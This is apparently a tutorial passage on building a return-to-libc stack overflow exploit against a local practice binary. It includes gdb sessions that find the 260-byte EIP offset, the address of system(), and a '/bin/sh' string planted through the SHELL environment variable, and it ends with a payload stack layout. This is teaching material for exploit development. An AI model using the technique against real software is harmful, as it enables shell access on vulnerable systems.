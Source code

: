 ```
root@kali:~/Desktop/tuts/so# gdb -q rt
Reading symbols from /root/Desktop/tuts/so/rt...(no debugging symbols found)...done.
(gdb) r `python -c 'print "A"*264'`
Starting program: /root/Desktop/tuts/so/rt `python -c 'print "A"*264'`
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) r `python -c 'print "A"*260+"B"*4'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Desktop/tuts/so/rt `python -c 'print "A"*260+"B"*4'`
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```
After 260 bytes
###### Finding the address of the `system()` function
Set a break at main and then search for the address to system when we get there:
```
(gdb) b *main
Breakpoint 1 at 0x804847c
(gdb) r `python -c 'print "A"*260+"B"*4'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Desktop/tuts/so/rt `python -c 'print "A"*260+"B"*4'`
Breakpoint 1, 0x0804847c in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e9ef10 <system>
```
The `system()` function address is at `0xb7e9ef10`
###### Finding the address of `"/bin/sh"`
This is whack and probably not how I would do it
```
root@kali:~/Desktop/tuts/so# export SHELL='/bin/sh'
root@kali:~/Desktop/tuts/so# gdb -q rt
(gdb) b *main
Breakpoint 1 at 0x804847c
(gdb) r `python -c 'print "A"*260+"B"*4'`
Starting program: /root/Desktop/tuts/so/rt `python -c 'print "A"*260+"B"*4'`
Breakpoint 1, 0x0804847c in main ()
(gdb) x/500s $esp
---Type <return> to continue, or q <return> to quit---
0xbfffff2f: "SHELL=/bin/sh"
0xbfffff3d: "GDMSESSION=default"
0xbfffff50: "GPG_AGENT_INFO=/root/.cache/keyring-WoZFyX/gpg:0:1"
0xbfffff83: "PWD=/root/Desktop/tuts/so"
0xbfffff9d: "XDG_DATA_DIRS=/usr/share/gnome:/usr/local/share/:/usr/share/"
0xbfffffda: "LINES=41"
0xbfffffe3: "/root/Desktop/tuts/so/rt"
0xbffffffc: ""
```
Essentially, it uses `x/500s $esp` to print 500 lines of the stack to find the environment variable "SHELL"
The exact address of the string `"/bin/sh"` is:
```
addr(SHELL) + 6
0xbfffff2f + 6
0xBFFFFF35
```
`SHELL=` is 6 bytes already
###### So our stack should look like:
```
Top of Stack   AAAAA...AAA
EBP            AAA
EIP            0xb7e9ef10         --> system
```